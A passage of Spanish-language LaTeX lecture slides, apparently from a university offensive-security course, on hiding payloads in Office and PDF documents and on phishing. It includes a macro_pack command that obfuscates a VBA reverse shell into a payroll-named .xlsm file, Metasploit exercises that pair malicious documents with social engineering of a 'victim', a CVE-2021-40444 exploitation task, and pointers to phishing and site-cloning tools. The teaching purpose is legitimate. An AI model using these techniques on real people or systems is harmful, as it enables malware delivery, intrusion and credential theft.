\begin{frame}[allowframebreaks]{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\small
\lead{Excel con payload tipo msfvenom}
  \begin{itemize}
  \item Nota: hay que permitir la ejecución de macros.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.30\textheight,keepaspectratio]{img/sl039_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.69\textheight,keepaspectratio]{img/sl039_2.png}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.69\textheight,keepaspectratio]{img/sl039_3.png}
\end{center}
\end{column}
\end{columns}
\vfill
\fuente{Al tratarse de código Visual Basic ---el mismo lenguaje con el que se programan las macros de Office---,
        basta con copiarlo y pegarlo en el editor de VBA de un Excel para que se ejecute.}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\begin{center}
\includegraphics[width=0.89\textwidth,height=0.841\textheight,keepaspectratio]{img/sl040_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl040_2.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl041_1.jpg}
\end{center}
  \begin{itemize}
  \item Crea un fichero \cmd{.vba} con una reverse shell y ocúltalo como un fichero de Office con \href{https://github.com/sevagas/macro_pack}{macro\_pack} en un Windows 10 con Office instalado como \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/Efh6SwkCkgxGhNDG8_3OYuEBd2vlR_-L0HowqBb7z-x0qw?e=5AwJb6}{este}.
  \end{itemize}
\cmdbox{macro\_pack.exe -f payload.vba -o -G nomina.xlsm}
\vspace{-0.5em}
\fuente{\cmd{-f} fichero VBA de entrada \sep{} \cmd{-o} ofusca el código de la macro \sep{}
        \cmd{-G} genera el documento Office de salida.}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\small
\lead{Usando Metasploit y un documento \cmd{.doc}:}
\begin{center}
\includegraphics[width=\textwidth,height=0.72\textheight,keepaspectratio]{img/sl042_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl042_2.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\small
  \begin{itemize}
  \item Importante: configurar Word con la opción de programador para que permita las macros.
  \end{itemize}
\begin{center}
\includegraphics[width=0.574\textwidth,height=0.766\textheight,keepaspectratio]{img/sl043_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl044_1.jpg}
\end{center}
  \begin{itemize}
  \item Crea un fichero \cmd{.docm} con Metasploit y realiza un ejercicio de ingeniería social para que una posible víctima lo ejecute.
  \item Realízalo en el mismo Windows 10 con Office anterior.
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\small
\lead{Usando Metasploit y un documento PDF}
  \begin{itemize}
  \item Nota: usar la versión correcta de Acrobat.
  \end{itemize}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=0.8\linewidth,height=0.642\textheight,keepaspectratio]{img/sl045_1.png}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=0.605\linewidth,height=0.669\textheight,keepaspectratio]{img/sl045_2.png}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl046_1.jpg}
\end{center}
  \begin{itemize}
  \item Crea un fichero PDF con Metasploit y realiza un ejercicio de ingeniería social para que una posible víctima lo ejecute.
    \begin{itemize}
    \item Puedes usar la versión vulnerable de Acrobat:
      \begin{itemize}
      \item \href{http://es.oldversion.com/windows/acrobat-reader-9-3-3}{es.oldversion.com/windows/acrobat-reader-9-3-3}
      \end{itemize}
    \item En el mismo Windows 7.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\small
\lead{\href{https://nvd.nist.gov/vuln/detail/CVE-2021-40444}{CVE-2021-40444}}
  \begin{itemize}
  \item La vulnerabilidad CVE-2021-40444 es un fallo grave de ejecución remota de código en el componente MSHTML de Windows (usado por Internet Explorer y Office), con una puntuación CVSS~v3.1 de 8,8 (alta).
  \item Permite a un atacante tomar el control del equipo si la víctima abre un archivo malicioso.
  \item Cómo funciona:
    \begin{itemize}
    \item Utiliza archivos de Microsoft Office preparados con controles ActiveX maliciosos.
    \item Aprovecha el motor MSHTML para procesar contenido web dentro de los documentos.
    \item Emplea técnicas de salto de directorio (\emph{path traversal}) para descargar y ejecutar código arbitrario.
    \item Requiere que el usuario abra el archivo o interactúe con él mediante ingeniería social.
    \end{itemize}
  \item Prueba de concepto: \href{https://github.com/lockedbyte/CVE-2021-40444}{lockedbyte/CVE-2021-40444}.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\begin{center}
\includegraphics[width=\textwidth,height=0.30\textheight,keepaspectratio]{img/sl047_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\begin{center}
\includegraphics[width=0.619\textwidth,height=0.841\textheight,keepaspectratio]{img/sl047_2.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl047_3.png}
\end{center}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl048_1.jpg}
\end{center}
  \begin{itemize}
  \item Explota la vulnerabilidad CVE-2021-40444 en una máquina Windows con Office instalado.
    \begin{itemize}
    \item \href{https://www.kitploit.com/2021/09/cve-2021-40444-poc-malicious-docx.html}{Ejemplo}
    \item \href{https://github.com/lockedbyte/CVE-2021-40444}{Herramienta}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
\lead{Herramienta \href{https://github.com/trustedsec/social-engineer-toolkit}{setoolkit (SET)}}
  \begin{itemize}
  \item SET (Social-Engineer Toolkit) es una suite de herramientas orientada a realizar pruebas de ingeniería social y ataques dirigidos para auditorías de seguridad. Fue diseñada para permitir al auditor crear vectores de ataque reales (phishing, páginas clonadas, payloads, etc.) de forma rápida, simulando técnicas que usan los atacantes humanos para engañar a los usuarios y obtener credenciales o ejecutar código.
  \item Es una herramienta veterana, hoy más útil como material didáctico y para prototipar ataques rápidamente que como arma de campaña real: sus plantillas y páginas clonadas son bien conocidas por los sistemas antiphishing. Para ejercicios serios de Red Team se emplean herramientas más modernas (gophish, Evilginx).
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl056_1.jpg}
\end{center}
  \begin{itemize}
  \item ¿Serías capaz de realizar un ataque de phishing con la herramienta SET?
  \item La herramienta SET tiene la opción de hacer el clonado de una web a tu elección, pero también existen herramientas que generan clones web simplemente a partir de una captura de pantalla:
    \begin{itemize}
    \item \href{https://github.com/abi/screenshot-to-code}{screenshot-to-code}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-3: Phishing}
\small
  \begin{itemize}
  \item Otra alternativa es la herramienta \href{https://github.com/manashma/BlackManPhishing}{BlackMan}.
  \end{itemize}
\vfill
\begin{columns}[c]
\begin{column}{0.4\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl057_1.jpg}
\end{center}
\end{column}
\begin{column}{0.56\textwidth}
